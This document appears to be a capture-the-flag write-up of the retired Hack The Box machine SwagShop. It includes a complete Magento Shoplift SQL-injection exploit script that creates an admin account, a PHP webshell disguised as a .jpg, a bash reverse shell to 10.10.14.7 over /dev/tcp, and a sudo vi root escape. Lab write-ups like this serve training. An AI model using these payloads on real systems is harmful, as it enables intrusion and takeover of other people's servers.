










# SwagShop by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| SwagShop  | 10.10.10.140  | Linux              | 20       | 4.1      | 11850       | 11188       | Yes       | 2019-05-11     | 2019-09-28     | No         | 188          |

## Summary
1. Scan ports -> 22,80
2. Enumerate port 80 -> `/admin/Cms_Wysiwyg/directive/index/` vulnerable to exploit
3. Create new admin user through exploit -> `revan:korriban`
4. Upload malicious `.jpg` file through `Category managemenet` -> `LFI` only for images
5. Allow template `symlinks` and apply `path traversal` to read the malicious `.jpg` -> RCE as `www-data`
6. Execute reverse shell -> User shell as `www-data` (User flag)
7. `sudo -l` or `cat /etc/sudoers` -> www-data can sudo `/usr/bin/vi` over `/var/www/html/*`
8. Open `vi` over any file and execute `:!/bin/bash` -> Root shell (Root flag)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.10.140
PING 10.10.10.140 (10.10.10.140) 56(84) bytes of data.
64 bytes from 10.10.10.140: icmp_seq=1 ttl=63 time=38.1 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.140 -v -Pn -n -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.140 

	[*] Open ports:  22,80 

[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p22,80 -sVC -n 10.10.10.140 -oN Enum/targeted
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 22  | ssh       | OpenSSH 7.2p2 | 4ubuntu2.8 |
| 80  | http      | Apache httpd 2.4.18 | Ubuntu |

### Port 80 enumeration
#### Technology scan
```bash
❯ whatweb http://swagshop.htb
http://swagshop.htb [200 OK] Apache[2.4.18], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```
Toguether with `wappalyzer`:
| Technology |  Version  | Detail |
| :-: | :-: | :-: |
| Apche | 2.4.18 | Ubuntu |
| jQuery | 1.10.2 | - | 
| Prototype | 1.7 | - |
| MySQL | - | - |
| PHP | - | - |
| Magento | - | eCommerce |

#### Web content fuzzing
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -L -t 200 --hc 404 --hh 1547 "http://10.10.10.140/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.140/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000080:   200        21 L     115 W      1917 Ch     "media"           
000000638:   200        16 L     59 W       946 Ch      "includes"        
000000721:   200        26 L     170 W      2877 Ch     "lib"             
000000909:   200        20 L     104 W      1698 Ch     "app"             
000001846:   200        18 L     82 W       1331 Ch     "skin"            
000004703:   200        21 L     115 W      1903 Ch     "var"             
000005708:   200        22 L     121 W      2149 Ch     "errors"       
000049195:   200        54 L     155 W      1319 Ch     "mage"  
```
If we inspect the `/app` page, we will eventually find `/app/etc/local.xml` which contains a xml with this information:
```xml
<connection>
<host>localhost</host>
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
<initStatements>SET NAMES utf8</initStatements>
<model>mysql4</model>
<type>pdo_mysql</type>
<pdoType></pdoType>
<active>1</active>
</connection>
```
We can enumerate a database `swagshop` with the credentials `root:fMVWh7bDHpgZkyfqQXreTjU9`, but the password seems encrypted.
If we enumerate `.php` files:
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -L -t 200 --hc 404 --hh 1547 "http://10.10.10.140/FUZZ.php"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.140/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================
000000715:   200        3 L      6 W        44 Ch       "install"         
000001026:   200        0 L      4 W        37 Ch       "api"             
000002423:   200        0 L      0 W        0 Ch        "cron"  
000000015:   200        327 L    904 W      16593 Ch    "index"
```
`/install.php` and `/cron.php` are not userful, and `/api` returns the following error:
```bash
❯ curl "http://swagshop.htb/api.php"
Invalid webservice adapter specified.
```

#### Manual enumeration
If we look for `Magento` admin login on google, we find the webpage `/index.php/admin`:

After some tries, we are sure this login is not SQL injectable. So we can look up exploits for `Magento`:
```bash
❯ searchsploit Magento
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Enti | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Scri | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/S | php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/con | php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site  | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitr | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Co | php/webapps/37811.py
Magento eCommerce - Local File Disclosure        | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution        | xml/webapps/37977.py
Magento Server MAGMI Plugin - Multiple Vulnerabi | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote Fil | php/webapps/35052.txt
Magento WooCommerce CardGate Payment Gateway 2.0 | php/webapps/48135.php
------------------------------------------------- ---------------------------------
```
From the technology scan we know the server is using `Magento eCommerce` and as we can't upload any file, we should use the RCE exploit:
```bash
❯ searchsploit -x xml/webapps/37977.py | head -n 20
##################################################################################################
#Exploit Title : Magento Shoplift exploit (SUPEE-5344)
#Author        : Manish Kishan Tanwar AKA error1046
#Date          : 25/08/2015
#Love to       : zero cool,Team indishell,Mannu,Viki,Hardeep Singh,Jagriti,Kishan Singh and ritu rathi
#Debugged At  : Indishell Lab(originally developed by joren)
##################################################################################################

////////////////////////
/// Overview:
////////////////////////

Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/)
This python script developed by joren but it was having some bug because of which it was not working properly.
If magento version is vulnerable, this script will create admin account with username forme and password forme
```
From this exploit we can obtain the following python script:
```py
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/37977.py
       │ Size: 1.6 KB
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ import requests
   2   │ import base64
   3   │ import sys
   4   │ 
   5   │ target = "http://swagshop.htb/index.php"
   6   │ 
   7   │ if not target.startswith("http"):
   8   │     target = "http://" + target
   9   │ 
  10   │ if target.endswith("/"):
  11   │     target = target[:-1]
  12   │ 
  13   │ target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
  14   │ 
  15   │ q="""
  16   │ SET @SALT = 'rp';
  17   │ SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT));
  18   │ SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
  19   │ INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`pass
       │ word`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,
       │ `rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com',
       │ '{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
  20   │ INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_i
       │ d,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE usern
       │ ame = '{username}'),'Firstname');
  21   │ """
  22   │ 
  23   │ 
  24   │ query = q.replace("\n", "").format(username="revan", password="korriban")
  25   │ pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
  26   │ 
  27   │ # e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
  28   │ r = requests.post(target_url,
  29   │                   data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
  30   │                         "filter": base64.b64encode(pfilter.encode("utf-8")),
  31   │                         "forwarded": 1})
  32   │ if r.ok:
  33   │     print("WORKED")
  34   │     print("Check {0}/admin with creds revan:korriban".format(target))
  35   │ else:
  36   │     print("DID NOT WORK")
───────┴───────────────────────────────────────────────────────────────────────────
```
If we execute it, it will create a new user with admin role through SQLi:
```bash
❯ python3 Exploits/37977.py
WORKED
Check http://swagshop.htb/index.php/admin with creds revan:korriban
```
As it returned `WORKED`, we can try to login with creds `revan:korriban` and we succeed.

## Web shell
Now that we are logged in as an administrator account, we can enumerate the version of Magento: `1.9.0.0`.
As administrators, we are able to create and edit categories. Doing so, we can upload images to the server, leading to possible LFI:

The file `webshell.jpg` is a simple websell:
```php
───────┬──────────────────────────────────────────────────────────────────────────
       │ File: Exploits/webshell.jpg                                             |                         
       │ Size: 107 B                                                             |         
───────┼─────────────────────────────────────────────────────────────────────────|
   1   │ <?php                                                                   |   
   2   │   echo "\n[+] Shell successfully started, showing output of '$cmd':";   |                                                                  
   3   │   system($_REQUEST["$cmd"]);                                            |                          
   4   │ ?>                                                                      |
───────┴──────────────────────────────────────────────────────────────────────────
```
And the uploaded path is `http://swagshop.htb/media/catalog/category/file.jpg`, but if we access it, it is being processed as `jpg` and not `php`, so we cannot run it. After some traversal through the page, we find out that the newspaper section is using templates:

We can try to inject code into the template to interprete the image uploaded as php. But doing so is not so easy, what we are trying to do is to perform a `Froghopper Attack` on Magento. This means we will need to `allow symlinks` in the template settings and then proceed with the injection:

Now, with this new configuration, we can try to interprete the `.jpg` file on the template preview:


The first test was successfull, with the `block` tag, we can try to read the content of the malicious file. First, upload `webshell.jpg` through the category creation:

Then, reference it using LFI on the `template` parameter:

Now, if we access to the template injecting `cmd=id`:


Now if we send a payload `bash -c 'bash -i >& /dev/tcp/10.10.14.7/3333 0>&1'` urlencoded as `cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.7/3333+0>%261'`, we can /admin/Cms_Wysiwyg/directive/index/

Now, if we listen to port 3333 on our machine:
```bash
❯ nc -nlvp 3333
Connection from 10.10.10.140:43138
bash: cannot set terminal process group (1380): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ 
```
We obtained a shell as the `www-data` user.

## User shell
Once we got `www-data` shell on the machine, we can read `/home/haris/user.txt`, so we suppose this is the goal of the foothold.

## Privilege escalation
Now, we can enumerate the permissions of `www-data` on the machine:
```bash
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/var/www/html$ cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d

www-data ALL=NOPASSWD:/usr/bin/vi /var/www/html/*
```
With this information, we can turn root executing `sudo vi /war/www/html/test` (or any other file in that folder) and executing `!/bin/bash`:
```bash
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/test

~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
:! /bin/bash
root@swagshop:/var/www/html# hostname -I
10.10.10.140 dead:beef::250:56ff:feb9:2b98 
```
We obtained root shell on `10.10.10.140`.

## CVE
No CVEs were read while pwning this target.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 9df6a6fab99b5316c21e323ca72e4ff6 | No | 14-06-2022|
| Root | 8da82ab6e07271f3b881a1bdd48105fa | No | 14-06-2022|

## References
- https://www.inmotionhosting.com/support/edu/magento/how-to-log-into-magento-admin-panel/
- https://blog.scrt.ch/2019/01/24/magento-rce-local-file-read-with-low-privilege-admin-rights/
- https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper